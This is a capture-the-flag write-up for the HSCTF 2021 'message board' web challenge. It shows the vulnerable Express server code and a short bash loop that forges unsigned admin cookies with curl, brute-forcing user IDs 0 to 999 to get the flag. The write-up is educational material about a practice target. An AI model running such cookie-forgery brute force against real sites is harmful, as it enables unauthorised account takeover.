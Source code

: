 ```yaml
---
title: HSCTF 2021 - message board | Web
published: true
---
```


## [](#header-2)Warmup

> Your employer, LameCompany, has lots of gossip on its company message board: message-board.hsc.tf. You, Kupatergent, are able to access some of the tea, but not all of it! Unsatisfied, you figure that the admin user must have access to ALL of the tea. Your goal is to find the tea you've been missing out on.

Your login credentials: username: kupatergent password: gandal

Given server code:

```
const express = require("express")
const cookieParser = require("cookie-parser")
const ejs = require("ejs")
require("dotenv").config()

const app = express()
app.use(express.urlencoded({ extended: true }))
app.use(cookieParser())
app.set("view engine", "ejs")
app.use(express.static("public"))

const users = [
    {
        userID: "972",
        username: "kupatergent",
        password: "gandal"
    },
    {
        userID: "***",
        username: "admin"
    }
]

app.get("/", (req, res) => {
    const admin = users.find(u => u.username === "admin")
    if(req.cookies && req.cookies.userData && req.cookies.userData.userID) {
        const {userID, username} = req.cookies.userData
        if(req.cookies.userData.userID === admin.userID) res.render("home.ejs", {username: username, flag: process.env.FLAG})
        else res.render("home.ejs", {username: username, flag: "no flag for you"})
    } else {
        res.render("unauth.ejs")
    }
})

app.route("/login")
.get((req, res) => {
    if(req.cookies.userData && req.cookies.userData.userID) {
        res.redirect("/")
    } else {
        res.render("login.ejs", {err: false})
    }
})
.post((req, res)=> {
    const request = {
        username: req.body.username,
        password: req.body.password
    }
    const user = users.find(u => (u.username === request.username && u.password === request.password))
    if(user) {
        res.cookie("userData", {userID: user.userID, username: user.username})
        res.redirect("/")
    } else {
        res.render("login", {err: true}) // didn't work!
    }
})

app.get("/logout", (req, res) => {
    res.clearCookie("userData")
    res.redirect("/login")
}) 

app.listen(3000, (err) => {
    if (err) console.log(err);
    else console.log("connected at 3000 :)");
})
```
### [](#header-3)Solution

After inputting the given credentials, I am greeted with this screen.

![image](https://user-images.githubusercontent.com/81070073/122327166-4de95480-cee2-11eb-8908-67f76c491150.png)

After checking out the server code, I noticed that the flag will be granted if the userID and the username "Admin" match. The userID has a three digit number only. 

Also, the userID and the username are actually encoded in the cookie value.

Using kupatergent as an example, this person's userID and username are stored in the cookie value "j%3A%7B%22userID%22%3A%22972%22%2C%22username%22%3A%22kupatergent%22%7D", which is encoded.

![image](https://user-images.githubusercontent.com/81070073/122327471-c2bc8e80-cee2-11eb-9bb6-32ee8550fbab.png)

I have written a bash script that will help me bruteforce and provide the cookie encoded in the similar manner, in which the userID will be attempted in the range from 0 to 999.

```
#!/bin/bash

for i in {0..999}
do
        curl --cookie "userData=j%3A%7B%22userID%22%3A%22$i%22%2C%22username%22%3A%22admin%22%7D" "https://message-board.hsc.tf/"
done

```

After executing the script:

```
$ ./script.sh | grep "flag{" > output.txt
$ cat output.txt

```
